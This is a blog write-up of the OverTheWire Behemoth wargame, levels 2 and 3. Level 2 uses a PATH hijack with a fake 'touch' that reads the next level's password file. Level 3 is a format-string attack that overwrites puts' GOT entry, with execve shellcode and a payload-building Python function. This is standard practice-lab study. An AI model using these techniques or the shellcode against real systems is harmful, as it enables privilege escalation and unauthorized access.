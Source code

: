 ```yaml
---
layout: post
title: behemoth-writeup-02-03
excerpt: "Writeup for the Behemoth (L02 & L03) wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / behemoth](http://www.overthewire.org/wargames/behemoth/)

## Level 2 ##

This one started off as a bit of a fun one:

``` shell
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '180': Permission denied
^C
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '186': Permission denied
^C
```

A run through `strace` yields more information:

``` shell
behemoth2@behemoth:/behemoth$ strace ./behemoth2
execve("./behemoth2", ["./behemoth2"], [/* 21 vars */]) = 0
[ Process PID=204 runs in 32 bit mode. ]
...
getpid()                                = 204
lstat64("204", 0xffffd5c0)              = -1 ENOENT (No such file or directory)
unlink("204")                           = -1 ENOENT (No such file or directory)
rt_sigaction(SIGINT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigaction(SIGQUIT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffffd500) = 205
waitpid(205, touch: cannot touch '204': Permission denied
[{WIFEXITED(s) && WEXITSTATUS(s) == 1}], 0) = 205
rt_sigaction(SIGINT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=205, si_status=1, si_utime=0, si_stime=0} ---
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({2000, 0}, ^CProcess 204 detached
 <detached ...>
```

We now see where that number comes from - it's the process' PID - and the pause is due to the call to `sleep`. Mmm.

Looking at the binary through `strings`, we see something of interest:

``` shell
behemoth2@behemoth:/behemoth$ strings behemoth2 | egrep -v -e'^(\.|_)'
/lib/ld-linux.so.2
libc.so.6
sprintf
unlink
getpid
system
sleep
GLIBC_2.4
GLIBC_2.0
PTRh
QVhm
cat
D$(
[^_]
touch %d
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
crtstuff.c
deregister_tm_clones
register_tm_clones
completed.6591
frame_dummy
behemoth2.c
data_start
sleep@@GLIBC_2.0
unlink@@GLIBC_2.0
lstat
getpid@@GLIBC_2.0
system@@GLIBC_2.0
main
sprintf@@GLIBC_2.0
```

And that's the way `touch` is invoked. It's a little sneaky but you'll notice it's not using an absolute path. If this was `/usr/bin/touch` instead there isn't much we could have done. But what will happen is that the program will look for the first available `touch` in `$PATH`.

With this in mind we can create a 'fake' touch that might just output the password file.

``` shell
behemoth2@behemoth:/behemoth$ cd /tmp
behemoth2@behemoth:/tmp$ cat > touch
#!/bin/sh
/bin/cat /etc/behemoth_pass/behemoth3
behemoth2@behemoth:/tmp$ chmod +x /tmp/touch
behemoth2@behemoth:/tmp$ PATH=/tmp:$PATH /behemoth/behemoth2
*** password ***
^C
```

Nice!

PS: I should note I tried a whole bunch of other stuff before deciding to start on a clean slate - it looks straightforward when put that way but it was anything but!

## Level 3 ##

At first glance we have a binary that takes user input and displays it back to us:

``` shell
behemoth3@behemoth:/behemoth$ ./behemoth3
Identify yourself: santa
Welcome, santa

aaaand goodbye again.
```

Could it be passing our input directly?

``` shell
behemoth3@behemoth:/behemoth$ echo 'AAAABBBB-%.x-%.x-%.x-%.x-%.x-%.x-%.x' | ./behemoth3
Identify yourself: Welcome, AAAABBBB-c8-f7fccc20-f7ff2e76-2-f7ffd000-41414141-42424242

aaaand goodbye again.
```

Right - format string exploitation time! The plan is to stick shellcode in an environment variable and get the binary to execute it. What address though? A quick glance through the binary doesn't reveal much:

``` shell
behemoth3@behemoth:/behemoth$ gdb -batch -ex 'file behemoth3' -ex 'disassemble main'                    Dump of assembler code for function main:
   0x0804847d <+0>:     push   %ebp
   0x0804847e <+1>:     mov    %esp,%ebp
   0x08048480 <+3>:     and    $0xfffffff0,%esp
   0x08048483 <+6>:     sub    $0xe0,%esp
   0x08048489 <+12>:    movl   $0x8048570,(%esp)
   0x08048490 <+19>:    call   0x8048330 <printf@plt>
   0x08048495 <+24>:    mov    0x80497a4,%eax
   0x0804849a <+29>:    mov    %eax,0x8(%esp)
   0x0804849e <+33>:    movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:    lea    0x18(%esp),%eax
   0x080484aa <+45>:    mov    %eax,(%esp)
   0x080484ad <+48>:    call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:    movl   $0x8048584,(%esp)
   0x080484b9 <+60>:    call   0x8048330 <printf@plt>
   0x080484be <+65>:    lea    0x18(%esp),%eax
   0x080484c2 <+69>:    mov    %eax,(%esp)
   0x080484c5 <+72>:    call   0x8048330 <printf@plt>
   0x080484ca <+77>:    movl   $0x804858e,(%esp)
   0x080484d1 <+84>:    call   0x8048350 <puts@plt>
   0x080484d6 <+89>:    mov    $0x0,%eax
   0x080484db <+94>:    leave
   0x080484dc <+95>:    ret
End of assembler dump.
```

We do not however the call to `puts@plt`. This means puts`' address will actually be resolved at runtime. We can look into the `GOT` to find out where the lookup will happen:

``` shell
abehemoth3@behemoth:/behemoth$ objdump -R behemoth3

behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049778 R_386_GLOB_DAT    __gmon_start__
080497a4 R_386_COPY        stdin
08049788 R_386_JUMP_SLOT   printf
0804978c R_386_JUMP_SLOT   fgets
08049790 R_386_JUMP_SLOT   puts
08049794 R_386_JUMP_SLOT   __gmon_start__
08049798 R_386_JUMP_SLOT   __libc_start_main
```

`0x08049790` will do nicely!

From there on it's fairly mechanical. We start by finding the address of our environment variable:

``` shell
behemoth3@behemoth:/tmp$ env -i SHELLCODE=$(python -c 'print  "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"') /tmp/moth_behemoth3 SHELLCODE
SHELLCODE is at 0xffffdfc0
```

(`/tmp/moth_behemoth3` is nothing more than a standard `getenv` wrapper of the same length as the binary)

And build our payload. I got a little bored with the arithmetic so here's a small function that does the needful:

``` shell
from pwnlib.util.packing import p32
def s(addr=0x08049790, value=0xffffdfc0, offset=6):
  lob = value & 0xffff
  hob = (value >> 16) &0xffff

  a = lob-0x8 if hob > lob else hob-0x8
  offset1 = offset + 1 if hob > lob else offset
  b = hob-lob if hob > lob else lob-hob
  offset2 = offset if hob > lob else offset

  return '{addr2}{addr}%.{a}x%{offset1}$hn%.{b}x%{offset2}$hn'.format(addr=p32(addr),addr2=p32(addr+0x2), a=a,b=b,offset1=offset1,offset2=offset2)
```

Giving us:

``` shell
▒▒%.57272x%7$hn%.8255x%6$hn
```

Which we'll just save to file for ease of use. Let's just check we're on the write track:

``` shell
behemoth3@behemoth:/behemoth$ cat /tmp/payload | env -i strace /behemoth/behemoth3 2>&1 | grep si_addr  --- SIGILL {si_signo=SIGILL, si_code=ILL_ILLOPN, si_addr=0xffffdfca} ---
```

Putting it all together:

``` shell
behemoth3@behemoth:/behemoth$ (cat /tmp/payload;cat) | env -i SHELLCODE=$(python -c 'print  "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"') /behemoth/behemoth3
...
whoami
behemoth4
cat /etc/behemoth_pass/behemoth4
*** password ***
```

Done!
